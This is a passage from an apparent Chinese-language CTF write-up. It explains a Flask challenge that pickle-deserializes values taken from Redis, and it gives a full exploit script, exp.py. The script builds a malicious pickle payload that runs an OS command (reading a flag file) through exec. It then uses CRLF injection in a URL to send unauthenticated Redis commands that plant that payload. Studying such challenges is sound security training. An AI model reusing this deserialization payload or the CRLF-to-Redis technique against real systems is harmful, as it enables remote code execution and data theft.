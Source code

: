 参考：

<https://bugs.python.org/issue42987> 存在CRLF漏洞

[flask不出网回显方式 - Longlone’s Blog](https://longlone.top/%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/flask%E4%B8%8D%E5%87%BA%E7%BD%91%E5%9B%9E%E6%98%BE%E6%96%B9%E5%BC%8F/)

题目是接收一个url参数，将redis中url对应的值取出并pickle反序列化

提示python版本为3.7.1，构造pickle序列化数据需要注意版本

主要思路为，利用CRLF注入，打redis未授权，将redis中url对应的值修改为恶意的pickle序列化数据，再次访问时，题目将redis中的内容取出进行pickle反序列化，造成命令执行

exp.py

```php
import requests
import hashlib
import pickle
import base64
import urllib

url = "/?url="

payload=b'''cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
)RS'__builtins__'
tRS'exec'
tR(S'raise Exception(__import__('os').popen('cat /f*').read())'
tR.
'''

payload_base64 = urllib.parse.quote(base64.b64encode(payload).decode())
print(payload_base64)

def encode_url(url):
    url_key = hashlib.md5(url.encode()).hexdigest()
    return url_key

inject_url = '1.2.3.4'
url_shell = url + inject_url
url_encode = encode_url("http://" + inject_url)

payload = f"127.0.0.1:6379?\r\nauth\r\nroot\r\nSET {url_encode} {payload_base64}\r\nquit"

url_set = url + payload
res1 = requests.get(url=url_set)
print(res1.text)
res2 = requests.get(url=url_shell)
print(res2.text)
```
